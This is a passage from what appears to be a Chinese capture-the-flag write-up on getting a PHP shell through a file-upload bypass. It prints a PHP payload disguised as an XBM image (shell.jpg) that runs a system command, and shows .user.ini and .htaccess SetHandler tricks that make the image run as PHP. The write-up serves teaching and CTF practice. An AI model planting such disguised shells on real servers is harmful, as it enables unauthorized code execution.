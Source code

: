 然后php会搜索网站目录下的.ini文件，加载.ini文件中的配置，这样shell.jpg就好包含在php文件的头部。

经过测试，index.php文件并没有包含到shell.jpg,直接访问shell.jpg所在目录，就执行shell.jpg的php代码

后面再本地测试，发现.user.ini只要放在网站目录之下，就可以被搜索到，而想要php文件包含shell.jpg，就必须保持shell.jpg和php文件在同一目录下，也就是说，只有和shell.jpg在同一目录下的php文件才会包含shell.jpg。

所以最后shell.jpg的代码为

```
#define test_width 16
#define test_height 7

<scirpt language="php">system('cat /flag');</script>
```

访问所在目录就可以看到flag

扩展：

这里顺便说一下**.htaccess**文件**getshell**

**.htaccess**文件(或者"分布式配置文件"）,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的[AllowOverride](https://baike.baidu.com/item/AllowOverride)指令来设置。[百度百科](https://baike.baidu.com/item/htaccess)

想要**Apache**支持**.htaccess**,需要在配置文件中写入一下指令

```
AllowOverride All	#开启支持.htaccess
AllowOverride None	#关闭
```

还需要在配置文件加入

```
LoadModule rewrite_module modules/mod_rewrite.so 	#有的版本默认开启
```

配置完成需要重启**Apache**

**.htaccess**有什么作用呢

概述来说，htaccess文件是[Apache](https://baike.baidu.com/item/Apache)服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页[301重定向](https://baike.baidu.com/item/301重定向)、自定义404错误页面、**改变文件扩展名**、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档，以及使用其他文件作为index文件等功能。

这里我们要特别关注一下，**改变文件扩展名**

如果我们在**.htaccess**中添加一下配置信息

```
<FilesMatch "shell.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
```

那**Apache**就会把当前目录下来含有**shell.jpg**解析为**php**文件

![Snipaste_2019-08-22_10-52-11](images\Snipaste_2019-08-22_10-52-11.png)

